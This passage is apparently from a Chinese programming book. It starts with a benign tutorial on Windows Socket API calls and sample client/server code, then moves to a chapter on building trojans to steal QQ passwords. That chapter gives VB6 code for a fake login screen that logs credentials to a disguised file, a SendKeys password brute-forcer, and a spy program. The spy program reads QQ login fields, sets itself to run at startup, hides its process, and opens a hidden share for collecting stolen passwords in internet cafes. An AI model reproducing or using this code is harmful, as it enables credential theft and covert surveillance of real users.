“临渊羡鱼，不如退而结网”，虽说“通往电脑的路不止一条”，然而对于编程，道路却只有一条，就是：动手去做，亲身实践。

朋友，愿你成为一个出色的舵手，用代码去驾驭电脑的世界，用编程去填充七彩的人生！

## 1.2 Socket编程的基础和基本过程

### 一、什么是Socket

接触网络编程当然要了解Socket，Socket就是套接字，它的定义是一种软件抽象，用于表达两台机器之间的连接'终端'。对于一个给定的连接，每台机器上都有一个套接字，有点像我们打电话，用电缆把电话连接起来，中间的物理结构和具体实现过程我们不必了解，只要我们能进行通话即可。当我们进行编程时，需要用到Socket接口，Socket接口定义了许多函数或例程，我们可以直接调用它们实现网络连接、通信等功能。Socket接口为我们建立通信信道，我们可以通过这条通道来与一台或多台计算机进行连接。

## 二、Socket编程的基本过程

下面我们以Windows Socket API为例进行介绍。

- **1. 建立Socket**：

既然是Socket编程，其最基本的步骤就是建立Socket，下面来看看建立Socket的函数原型：

```
SOCKET Socket(int af, int type, int protocol );
```

第一个参数指定应用程序使用的通信协议的协议族，对于TCP/IP协议族，该参数置PF_INET；第二个参数指定要创建的套接字类型，一般分为流套接字和数据包套接字两种类型。流套接字类型为SOCK_STREAM、数据包套接字类型为SOCK_DGRAM；第三个参数指定应用程序所使用的通信协议。该函数如果调用成功就返回新创建的套接字的描述符，如果失败则返回INVALID_SOCKET。套接字描述符是一个整数类型的值。每个进程的进程空间里都有一个套接字描述符表，该表中存放着套接字描述符和套接字数据结构的对应关系。该表中有一个字段存放新创建的套接字的描述符，另一个字段存放套接字数据结构的地址，因此，根据套接字描述符就可以找到其对应的套接字数据结构。每个进程在自己的进程空间里都有一个套接字描述符表，但是套接字数据结构都是在操作系统的内核缓冲里。

- **2. Socket的配置**：

通过Socket函数调用返回一个Socket描述符后，在使用Socket进行网络传输以前，必须配置该Socket。面向客户端的Socket通过调用connect函数在Socket数据结构中保存本地和远端信息。无连接客户端、服务端以及面向连接Socket的服务端，通过调用bind函数来配置本地信息。bind函数将Socket与本机上的一个端口相关联，随后你就可以在该端口监听服务请求。下面看看connect函数和bind函数：

```
int bind(SOCKET s, const struct sockaddr FAR *name, int namelen );
```

当创建了一个Socket以后，套接字数据结构中有一个默认的IP地址和默认的端口号。一个服务程序必须调用bind函数来给其绑定一个IP地址和一个特定的端口号。客户程序一般不必调用bind函数来为其Socket绑定IP地址和端口号。该函数的第一个参数指定待绑定的Socket描述符；第二个参数指定一个sockaddr结构，该结构是这样定义的：

```
struct sockaddr
{
unsigned short sa_family;
char sa_data[14]; };
```

sa_family指定地址族，对于TCP/IP协议族的套接字，给其置AF_INET。当对TCP/IP协议族的套接字进行绑定时，我们通常使用另一个地址结构：

```
struct sockaddr_in
{short sin_family;
unsigned short sin_port;
struct in_addr sin_addr;
char sin_zero[8];};
```

其中sin_family置AF_INET；sin_port指明端口号；sin_addr结构体中只有一个惟一的字段s_addr，表示IP地址，该字段是一个整数，一般用函数inet_addr把字符串形式的IP地址转换成unsigned long型的整数值后再置给s_addr。有的服务器是多宿主机，至少有两个网卡，那么，运行在这样的服务器上的服务程序在为其Socket绑定IP地址时，可以把htonl(INADDR_ANY)置给s_addr，这样做的好处是，不论哪个网段上的客户程序都能与该服务程序通信；如果只给运行在多宿主机上的服务程序的Socket绑定一个固定的IP地址，那么，就只有与该IP地址处于同一个网段上的客户程序才能与该服务程序通信。我们用0来填充sin_zero数组，目的是让sockaddr_in结构的大小与sockaddr结构的大小一致。

##### 3. 实现功能

- **① 服务器端**：需要对绑定的端口进行监听，函数原型如下：

```
int listen( SOCKET s, int backlog );
```

服务程序可以调用listen函数使其流套接字s处于监听状态。Backlog为客户连接请求队列的最大数量。处于监听状态的流套接字s将维护一个客户连接请求队列。执行成功，则返回0；如果执行失败，则返回SOCKET_ERROR。

此外，还需要从请求队列中取出最前一个客户请求，需要用到accept()函数：SOCKET accept(SOCKET s, struct sockaddr FAR *addr, int FAR *addrlen);

服务程序调用accept函数从处于监听状态的流套接字s的客户连接请求队列中取出排在最前的一个客户请求，并且创建一个新的套接字来与客户套接字创建连接通道，如果连接成功，就返回新创建的套接字的描述符，以后与客户套接字交换数据的是新创建的套接字；如果失败，就返回INVALID_SOCKET。该函数的第一个参数指定处于监听状态的流套接字；操作系统利用第二个参数来返回新创建的套接字的地址结构；操作系统利用第三个参数来返回新创建的套接字的地址结构的长度。

- **② 客户端**：

connect函数：int connect(SOCKET s,const struct sockaddr FAR* name,int namelen);

connect函数是为了与远程主机建立直接连接而使用的。该函数的参数是相当清楚的：s是即将在其上建立连接的那个有效的TCP套接字；name是针对TCP（说明连接的服务器）的套接字的结构；namelen则是名字参数的长度。

send函数：int send(SOCKET s, const char FAR *buf, int len,int flags );

该函数的第一个参数指定发送端套接字描述符；第二个参数指明一个存放应用程序要发送数据的缓冲区；第三个参数指明实际要发送的数据的字节数；第四个参数一般置0。这里只描述同步Socket的send函数的执行流程。当调用该函数时，send先比较待发送数据的长度len和套接字s的发送缓冲区的长度，如果len大于s的发送缓冲区长度，该函数返回SOCKET_ERROR；如果len小于或者等于s的发送缓冲区的长度，那么，send先检查协议是否正在发送s的发送缓冲中的数据，如果是，就等待协议把数据发送完，如果协议还没有开始发送s的发送缓冲中的数据或者s的发送缓冲中没有数据，那么，send就比较s的发送缓冲区的剩余空间和len，如果len大于剩余空间大小，send就一直等待协议把s的发送缓冲中的数据发送完，如果len小于剩余空间大小，send就仅仅把buf中的数据复制到剩余空间里。如果send函数复制数据成功，就返回实际复制的字节数；如果send在复制数据时出现错误，那么，send就返回SOCKET_ERROR；如果send在等待协议传送数据时网络断开的话，那么，send函数也返回SOCKET_ERROR。要注意：send函数把buf中的数据成功复制到s的发送缓冲的剩余空间里后它就返回了，但是这些数据并不一定马上被传到连接的另一端。如果协议在后续的传送过程中出现网络错误的话，那么，下一个Socket函数就会返回SOCKET_ERROR（每一个除send外的Socket函数在执行的最开始总要先等待套接字的发送缓冲中的数据被协议传送完毕才能继续，如果在等待时出现网络错误，那么，该Socket函数就返回SOCKET_ERROR）。

注意：send函数客户端和服务器端应用程序都可以用send函数来向TCP连接的另一端发送数据。一般客户端发送请求，服务器端发送应答。

下面还有一个服务器端和客户端都需要的函数recv()；

```
int recv(SOCKET s, char FAR *buf, int len, int flags );
```

该函数的第一个参数指定接收端套接字描述符；第二个参数指明一个缓冲区，该缓冲区用来存放recv函数接收到的数据；第三个参数指明buf的长度；第四个参数一般置0。函数调用成功返回实际接收的字节数，如果接收出错则返回SOCKET_ERROR，接收数据时网络中断返回0。

## 4. 关闭Socket

当完成服务或者某任务时，记得请把Socket关闭：int closeSocket (SOCKET s);

#### 三、小结及例子分析

##### 1. 服务器端的工作流程

首先调用Socket函数建立Socket，然后调用bind函数将Socket与本机IP地址和端口进行绑定，接着调用listen对Socket进行监听；当调用accept函数接收到一个连接服务请求时，便生成一个新的Socket。服务器显示该客户机的IP地址，并通过新的Socket向客户端发送字符串"Hello!"。最后关闭该Socket。服务器端重要部分程序如下：

```
main()
{
int sockfd,client_fd; /*sock_fd: 监听Socket; client_fd: 数据传输 Socket */
struct sockaddr_in my_addr; /* 本机地址信息 */
struct sockaddr_in remote_addr; /* 客户端地址信息 */
if ((sockfd = Socket(AF_INET, SOCK_STREAM, 0)) == -1) {/* 创建Socket*/
printf("Socket 创建出错! "); exit(1);
}
my_addr.sin_family=AF_INET;/* 协议族 */
my_addr.sin_port=htons(SERVPORT);/* 端口设定 */
my_addr.sin_addr.s_addr = INADDR_ANY;/* 设置的IP 地址信息*/
memset(&(my_addr.sin_zero),0,sizeof(my_addr.sin_zero));
if (bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr)) /* 绑定此Socket*/
== -1) {
printf("bind 出错! ");
exit(1);
}
if (listen(sockfd, BACKLOG) == -1) {/* 对Socket 进行监听 */
printf("listen 出错! ");
exit(1);
}
while(1) {
sin_size = sizeof(struct sockaddr_in);
if ((client_fd = accept(sockfd, (struct sockaddr *)&remote_addr,
&sin_size)) == -1) {
printf("accept 出错 ");
continue;
}
printf("received a connection from %sn", inet_ntoa(remote_addr.sin_addr));
if (send(client_fd, "Hello!", 6, 0) == -1)
printf("send 出错! ");
close(client_fd);
exit(0);
}
close(client_fd);
}
}
}
```

##### 2. 客户端程序流程

在建立Socket以后，用connect函数与服务器端连接，连接成功以后，用recv函数接收服务器端发来的消息。客户端程序重要部分代码如下：

```
#define SERVPORT 3333
#define MAXDATASIZE 100 /* 每次最大数据传输量 */
main(int argc, char *argv[]){
int sockfd, recvbytes;
char buf[MAXDATASIZE];
struct hostent *host;
struct sockaddr_in serv_addr;
if (argc < 2) {
printf("Please enter the server's hostname!\n");
exit(1);
}
if((host=gethostbyname(argv[1]))==NULL) {
printf("gethostbyname 出错! ");
exit(1);
}
if ((sockfd = Socket(AF_INET, SOCK_STREAM, 0)) == -1){
printf("Socket 创建出错!. ");
exit(1);
}
serv_addr.sin_family=AF_INET;
serv_addr.sin_port=htons(SERVPORT);
serv_addr.sin_addr = *((struct in_addr *)host->h_addr);
memset(&(serv_addr.sin_zero),0,sizeof(serv_addr.sin_zero));
if (connect(sockfd, (struct sockaddr *)&serv_addr, /* 对服务器端进行连接 */
sizeof(struct sockaddr)) == -1) {
printf("connect 出错! ");
exit(1);
}
if ((recvbytes=recv(sockfd, buf, MAXDATASIZE, 0)) ==-1) {/* 从服务器端接收信息 */
printf("recv 出错! ");
exit(1);
}
printf("%s",buf);
}
```

以上的代码从网上摘录，仅供参考。

## 第2章 远程控制程序开发

### 2.1 自己动手做木马

众所周知QQ这款聊天软件在广大网民心中的地位和流行程度，网友们用它来交朋友，交流信息，和朋友倾诉心中的秘密，甚至用它来做商业洽谈，但同时，QQ黑客软件也随之出现了。这些黑客软件有的可以偷看别人的聊天记录，有的可以盗取别人的密码，以后者居多，不少计算机方面的杂志对此有详细的介绍，但是，那些介绍多数以具体的软件和使用与防范为主，你看后是不是感觉有些不满足？为什么？那些软件是人家做的嘛，自己使用起来难免有些不顺手，弄不好软件作者在那些QQ黑客软件中给他自己留个后门，到头来你自己辛辛苦苦盗的密码发到了软件作者的信箱里，并且还有一句什么话叫做“真正的黑客是使用自己做的软件进行网络攻击，那些拿别人做的软件盗得几个密码和攻陷几个网络的称不上黑客，顶多只是些无聊分子”，这话不是我说的，你若听了有气可不要找我出气。基于此，这里给大家介绍几种典型QQ黑客软件的做法，你若不太懂编程的话，也没关系，你只要会掌握一门基础的编程语言（最好是面向对象的），并且会在语言中调用系统的API函数就可以了。

偷看聊天记录的方法在这里就不做介绍了，就是用像SoftICE之类的跟踪程序跟踪进去，改掉跳转就可以了。不过，这需要有一定的汇编语言方面的知识，不需要太高，你若想学习一定要有信心！下面，我们详细介绍一下盗取QQ密码方面的编程知识。

我们分3个方面来介绍，这3个方面的方法各不相同，前两种比较简单，可盗取率不太高，第三个方法较之稍难一些，可盗取率基本上能达到百分之百！怎么样，心动了吧，好，下面我们以简单易用的面向对象程序设计语言VB6.0为例开始介绍。

#### 一、 伴猪吃虎

顾名思义，就是做个和真正的QQ软件登录界面相同的界面，当有人在你设计的文本框中填入账号和密码，点“确定”时，表面上弹出一个“你的密码有错，请重新输入！”或是“QQ程序文件已损坏，请重新安装！”之类的对话框，暗地里嘛，早已把你的账号和密码记录到计算机中的一个秘密文件里或是发到下木马的人的信箱中。至于做界面，想必大家都会，就是做的像不像的问题。下面是我做的QQ登录的两个界面，看看是不是和真的很像？如图2-1、图2-2所示。



图2-1



图2-2

我们一般只需要做这两个界面就可以了，然后在第一个界面的“登录”按钮和第二个界面的“下一步”按钮的事件中加入以下示例代码：

```
Open "C:\windows\qqpass.zck" For Append As #1
Print #1, Text1.Text
Print #1, Text3.Text
Close #1
```

看到了没有？整个程序的动手编程部分就这么简单，第一句话的意思是打开C盘Windows系统目录下的“qqpass.zck”文件进行追加写入，若该文件不存在就创建它。实际上该文件是一个文本文件，打开时用记事本打开就可以了。为什么以“zck”为扩展名呢？这是为防止有些人可能会怀疑他的机子上已被你种了木马，若是以“txt”结尾他会很容易找到，以“zck”结尾呢，他看见若是不留意也不知道是什么文件，还以为是系统文件呢！怎么样，够黑吧！？第二句第三句就是把你设计的那两个文本框中的内容，也就是你想要的账号和密码写入“qqpass.zck”这个文件中。最后一句是关闭文件的意思。不过值得注意的的是，你做的程序的QQ图标和界面上那个可爱的小企鹅是怎么来的呢？总不能发电邮向腾讯公司要吧？其实，只要用一个图标提取工具就可以了，这里本人极力向你推荐“Exescope”，这款软件不但能提取图标，还有其他强大功能，甚至可以修改和汉化软件，呆会儿我们将用到它。

此方法的优点：简单，编程初学者都可以做出来。缺点：容易被识破。稍微有一些经验的人一看便能识破。介绍QQ防范的文章那么多，要想用上面这个软件偷几个密码还真不容易。下面，我们来看第二种方法。

#### 二、 穷举解密

打开你计算机上曾经登录过的QQ号码，假设你忘了密码或者这个号码不是你的，然后你随便填入一个密码，点击“登录”按钮，出现如图2-3所示对话框。点击“否”，出现图2-4对话框，再随便输入一个密码，点确定，还是不对。又出现了图2-3对话框。设想一下，如果你一直这样试会怎样？结果是当试了足够多次后，密码就会被试出来。如果人工来试肯定累死了，一般是用计算机来试的。留心以上重复的过程了没有？输入一个密码，按两次回车键，再输入……在VB6.0中，我们可以调用SendKeys()函数来自动实现以上过程。



图 2-3


图 2-4

设计一个界面，然后添加一个定时器，定时器的定时时间不要选得太小，可以设为1000（即1秒触发一次），然后在定时器的事件中加入以下示例代码：

```
Private Sub Timer1_Timer()
SendKeys (i)          ' 发送密码
i = i + 1             ' 密码加 1
SendKeys ("{enter}")  ' 发送回车键
SendKeys ("{enter}")
Text2.Text = i        ' 设计一个文本框监视破解进度
SendKeys ("{bs}")     ' 清除上次输入的非正确密码
```

SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
SendKeys ("{bs}")
End Sub

其中“i”是在窗体的通用声明中声明的一个全局变量，可以设为从1或是从任意一个数开始，定时器每触发一次也即每破一次密码“i”便加1，一直加到正确的密码为止。当然，这有局限性，就是只能破解数字型的密码，若密码中含有英文字母，只要稍加改进便可实现，想法让“i”也在26个英文字母中循环就可以了。不过，这种方法实用性不太大，不必做的那么复杂。图2-5是我做的此方法的一个程序界面。



图2-5

第一个文本框是运行时设置的起始值，可以从0开始，也可以从6位数100000开始，还可以从你上次破解的进度开始。下面那个文本框便是破解进度，便于监视。右面是设置定时器的触发时间，一般在500~1000之间为宜。按照以上的介绍，你便可以做出你自己的此类软件了。点击开始后，定时器开始运行，然后快速将光标定位到图2-4的“用户口令”后面的文本框中（因为SendKeys函数将信息发送到活动的窗口中），然后你就等吧，在离线状态下，什么时候登录上了，密码也就解出来了，就在破解进度框中的那个值前面几个数中。注意在破解过程中要始终使图4窗口处于前台，你可以在后台听听音乐什么的。那将是一个漫长的等待过程，设想一下，如果一秒钟试一个密码，则破解一个六位密码则要300多个小时，十几天的时间，漫长吧？不过若解一个3位的密码，十几分钟就出来了，所以这种方法虽然有一定的可取性，但可行性也不是很大。

此方法优点：还是简单。重要的编程部分也没有几句，初学者易上手。缺点：费时长，效率低。那么，有没有比较可靠的方法呢？激动人心的时刻来了，那就是下面这种成功率基本上能达到百分之百的方法，不过，这种方法比较复杂，需要调用大量的系统API函数，你一定要有信心，当你用以下这种方法编制出程序后，你会发现，你已经成了一个系统编程高手。

#### 三、超级间谍

在具体编写程序代码以前，先来讲一下大概的思路，然后针对各个部分再详细地介绍代码的编写。这样分块来讲，可能会使你觉得相对简单些。

首先，你的程序运行一次后，下次开机便自动运行。并且，你的程序是在后台运行，当按“Ctrl+Alt+Delete”键时，你的程序进程也不出现在那个烦人的“照妖镜”似的对话框中。再就是，当你的程序秘密运行后；便在后台监视有没有“QQ的用户注册”窗口出现，若有，便枚举此窗口的子句柄，然后将“QQ用户注册”窗口中的“我的号码”和“密码”后的文本框中的内容发送到你指定的文件或是邮箱中。这一切都是在神不知鬼不觉中进行的，你或许会以为，这更像是一个病毒，只是没有传染性。好，下面我们开始具体介绍各部分代码编写过程。

- 1.监视“QQ用户注册”的窗口”。这一部分通过调用系统API函数FindWindow来实现。函数声明如下（以后的API函数声明限于篇幅请查阅MSDN）：

```
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
```

设计定时器一，在其事件中添加以下代码：

```
qqhwnd=FindWindow(vbNullString, "   ")
```

你可能会纳闷：为什么函数的第二个参数不是“QQ用户注册”而是看起来像几个空格呢？这也正是QQ的秘密所在。腾讯公司为了防QQ黑客软件，不停地升级QQ软件，在很多方面加了密，你若是打开QQ后用你的程序找“QQ用户注册”这个窗口，会发现总也找不到，细心点会发现，“QQ用户注册”这几个字的字体稍粗，并且后面好像还有几个“...”，说明这个窗口的标题有一定的格式，平常方法是找不到的，估计这也是很多朋友做不出这方面软件的原因。怎么办呢？没关系，前面提到的“Exescope”出场了。在这里，这款软件大显了它的身手。用Exescope打开QQ.exe，然后点开“资源”→“对话框”下的“433”项，如图2-6所示，看到了标题后面的那个文本框中的“   ”部分了吗？是不是像几个空格？那便是“QQ用户注册”那个窗口的标题，不用管它什么格式，把它直接拷贝到 FindWindow（）函数的第二个参数处就可以了。



图 2-6

- 2.枚举子窗口的句柄，得到子窗口的风格及“我的号码”和“密码”后面的本框中的内容。

当“QQ用户注册”窗口出现后，便调用API函数GetWindow（）循环枚举子窗口的句柄，并调用GetWindowLong（）得到各子窗口的样式。这里告诉大家一点，免得大家走弯路，就是只枚举“QQ用户注册” 子窗口的句柄是不行的，将得不到想要的那两个文本框的句柄。原因嘛，你仔细看看图2那个窗口就会发现，“我的号码”和“密码”后边的那两个文本框在一个边框里，所以你要设计一个二层循环，先枚举“QQ用户注册”的各个子窗口的句柄，再枚举它各个子窗口的子窗口的句柄，你若有数据库树状图方面的知识将很容易理解这一点儿。也就是说，先通过“QQ用户注册”找到你想要的那两个文本框所在的边框，再通过那个边框就可以找到你想要的文本框了。有点复杂吧？幸好早告诉了你，让你有点准备，不尝苦中苦，哪来甜中甜呀，不要灰心。代码示例如下：

```
vb
qqhwnd = FindWindow(vbNullString, "")
If qqhwnd <> 0 Then
sonhwnd = qqhwnd
sonhwnd = GetWindow(sonhwnd, GW_CHILD)
Do
zisonhwnd = sonhwnd
zisonhwnd = GetWindow(zisonhwnd, GW_CHILD)
Do
zstyle=GetWindowLong(zisonhwnd, GWL_STYLE)
'得到窗口风格
firstlong = plong
Firstastr = astr
If zstyle And (ES_NUMBER Or ES_PASSWORD) Then
cLong = SendMessage(zisonhwnd, WM_GETTEXTLENGTH, 0, vbNull) '发送消息
plong = SendMessage(zisonhwnd, WM_GETTEXT, cLong + 1, astr)
Text1.Text = ""
Text2.Text = ""
Text3.Text = ""
Text2.Text = firstlong & " " & plong
Text1.Text = Firstastr
Text3.Text = astr
End If
zisonhwnd = GetWindow(zisonhwnd, GW_HWNDNEXT) '枚举各子窗口的子窗口
Loop While zisonhwnd <> 0
sonhwnd = GetWindow(sonhwnd, GW_HWNDNEXT) '枚举QQ用户注册窗口的各子窗口
Loop While sonhwnd <> 0
```

由“QQ用户注册”窗口可知，“我的号码”后面的框只能输入数字，而“密码”后面的框输入数据后以“*”显示，其样式分别为ES_NUMBER和ES_PASSWORD，我们只要在枚举过程中当得到有这种风格的控件时，便将其内容用API函数SendMessage()发送到你的程序中便可，在以上代码中，文本框Text1记录的是号码，Text3记录是的密码，而Text2记录的是号码和密码的长度。

- 3.将得到的号码和密码记录下来或发到自己的邮箱。

记录到文件可参照第一种方法的示例代码，基本相同。发送到邮箱这里不再做介绍。

- 4.使自己的程序开机自动运行。要实现这一点很简单，只需要调用读写注册表函数RegOpenKeyEx、RegSetValueEx、RegCloseKey将你的程序名和目录写进HKEY_LOCAL_MACHINE 主键下的项“Software\Microsoft\ Windows\CurrentVersion\Run”中就可以了，代码简要介绍如下：

```
vb
aa = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "Software\Microsoft\Windows\CurrentVersion\Run", 0, KEY_SET_VALUE, jubing)
bb = RegSetValueEx(jubing, "winsys.exe", 0, REG_SZ, ByVal("C:\windows\SYSTEM\winsys.exe"), Len("C:\windows\SYSTEM\winsys.exe") + 2)
cc = RegCloseKey(jubing)
```

- 5.在“Ctrl+Alt+Delete”中隐藏进程。这一点更简单，调用系统API函数Register ServiceProcess（）就可以了，两个参数如下：

```
RegisterServiceProcess (GetCurrentProcessId, 1)
```

值得注意的是GetCurrentProcessId也是一个API函数，也需要声明。

此种方法比较复杂，大部分为调用系统API函数的过程，你若在其他如Dephi语言里熟练调用API函数，看了此文后也能起到触类旁通的作用。这里附上我做的关于此方法的一个小软件qqspy。它还有一些别的功能，如把密码写进“C:\windows\qqpass.zck”里，每次开机自动运行时便读取“qqpass.zck”；若已盗得了密码，它便隐藏运行；若“qqpass.zck”为空，它的界面便显示出来供用户重新设置。另外，只要运行此软件，该计算机的“C:\windows”目录便设为完全共享，但中木马机和访问机都看不见共享，只有在访问机的“运行”中输入“\中木马的计算机名\windows$”才可访问，这是专门针对网吧盗号而又不被网管发觉设计的。你可以在不同的机子上访问你以前在其他已种木马的机子上的“C:\windows”目录下的“qqpass.zck”文件而收取已盗得的号码。放心吧，此软件我可没给自己留后门。

